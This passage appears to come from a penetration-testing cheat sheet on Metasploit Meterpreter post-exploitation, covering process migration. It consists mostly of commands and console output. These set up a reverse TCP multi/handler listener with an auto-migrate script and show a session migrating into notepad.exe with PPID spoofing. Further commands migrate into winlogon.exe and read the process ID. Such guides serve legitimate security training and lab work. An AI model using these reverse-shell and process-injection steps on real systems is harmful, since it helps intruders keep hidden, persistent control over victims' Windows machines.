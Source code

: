 ```

meterpreter > reg
```

#### 2.1.4 - Process Manipulation

##### 2.1.4.1 - Migrate to Another Process

* **Setting up listener to auto migrate to another process**

```
msf exploit(multi/handler) > set lhost 10.0.2.4

msf exploit(multi/handler) > set lport 4444

msf exploit(multi/handler) > set autorunscript post/windows/manage/migrate name=notepad.exe

msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.0.2.4:4444 
[*] Sending stage (200262 bytes) to 10.0.2.15
[*] Session ID 4 (10.0.2.4:4444 -> 10.0.2.15:49840 ) processing AutoRunScript 'post/windows/manage/migrate name=notepad.exe'
[*] Running module against DEFALT
[*] Current server process: powershell.exe (1136)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 1280
[+] Successfully migrated into process 1280
[*] Meterpreter session 4 opened (10.0.2.4:4444 -> 10.0.2.15:49840 ) at 2022-05-15 15:35:51 -0400
```

* **Migrate to another process**

```
meterpreter > migrate -h
Usage: migrate <<pid> | -P <pid> | -N <name>> [-t timeout]

Migrates the server instance to another process.
NOTE: Any open channels or other dynamic state will be lost.

meterpreter > migrate <pid>

meterpreter > migrate -N <process_name>

meterpreter > migrate -N winlogon.exe
[*] Migrating from 4980 to 412...
[*] Migration completed successfully.
```

##### 2.1.4.2 - Get Process ID

```
meterpreter > getpid
Current pid: 1280
```

